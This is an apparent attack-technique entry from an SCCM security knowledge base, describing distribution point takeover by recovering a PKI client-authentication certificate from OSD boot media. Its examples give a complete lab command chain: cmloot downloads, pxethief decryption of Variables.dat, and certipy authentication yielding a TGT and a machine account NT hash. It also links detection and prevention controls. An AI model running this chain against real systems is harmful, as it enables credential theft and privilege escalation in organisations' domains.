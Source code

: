 # ELEVATE-5

## Description
Distribution Point Takeover via OSD Media Recovery


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- PKI client authentication certificates are used for communication with the target distribution point
- The distrubution is PXE-enabled or still hosts the OSD media boot images for PXE

One of the following:
- Connectivity to SMB on the distribution point OR
- Connectivty to HTTP(s) on the distribution point

And one of the following:
- Valid Active Directory domain credentials 
- Anonymous authentication enabled on the distribution point

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires its PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. During OSD task sequence media, the certificate is imported where required to support HTTPS communications to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully recover the PKI certificate from the OSD task sequence variables file contents may gain control of the certificate's AD identity.

## Impact 

 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)

## Examples

1. On the attacker server, using cmloot.py triage the content library for common OSD media formats like .WIM or .ISO

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Access to SCCMContentLib on 10.6.10.12
[+] sccmfiles.txt created

┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootdownload sccmfiles.txt -extensions WIM ISO
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['WIM', 'ISO']
[+] Creating CMLootOut
[+] Downloaded D55D-boot.12300002.wim
[+] Downloaded 3203-win11.wim
[+] Downloaded 8A5E-prestaged.wim
```
2. Using an archiving tool such as 7zip, parse the recovered media files for and extract the Variables.dat task sequence variables file.

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot/CMLootOut]
└─# 7z l 8A5E-prestaged.wim|grep -i Variables.dat
2025-06-19 16:23:53 ....A        24248        24248  SMS/data/Variables.dat

```
3. Use pxethief.py to extract the PKI certificate from the recovered variables file

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# python3 /home/kali/PXEThief/pxethief.py 3 Variables.dat

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Attempting to decrypt media variables file and retrieve policies and passwords from MECM Server...
[+] User did not supply password. Making use of default MECM media variables password (only works for non-password protected media)
[+] Media variables file to decrypt: Variables.dat
[+] Password provided: {BAC6E688-DE21-4ABE-B7FB-C9F54E6DB664}
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx. Certificate password is 8AE6B618-77EC-46CB-B1B5-88F693E
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: https://sccm-mgmt.ludus.domain
```

3. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# openssl \
-in 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx \
-passin pass:8AE6B618-77EC-46CB-B1B5-88F693E \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            13:00:00:00:1b:3f:6d:ff:d3:07:16:36:2c:00:00:00:00:00:1b
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  2 19:35:17 2025 GMT
            Not After : Jun  2 19:35:17 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0/.'+.....7.....k...............6.=...t...y..d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                62:55:1A:83:88:8E:1B:03:0C:76:2E:84:87:5F:B2:D0:27:92:2B:DB
            X509v3 Authority Key Identifier:
                74:86:80:EB:30:51:04:4D:D8:32:A0:33:7D:BB:77:24:18:C5:50:65
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-distro.ludus.domain

```


4. Use certipy to authenticate on behalf of the recovered certificate's identity.

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# certipy auth -pfx 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx -password 8AE6B618-77EC-46CB-B1B5-88F693E -dc-ip 10.6.10.10
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-distro.ludus.domain'
[*] Using principal: 'sccm-distro$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-distro.ccache'
[*] Wrote credential cache to 'sccm-distro.ccache'
[*] Trying to retrieve NT hash for 'sccm-distro$'
[*] Got hash for 'sccm-distro$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:b8388cab9a861556b6132ae7e4de71c5

```


## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- ELEVATE-4, [Distribution Point Takeover via PXE Boot Spoofing](../ELEVATE-4/ELEVATE-4_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#task-sequence-media-for-deploying-operating-systems)


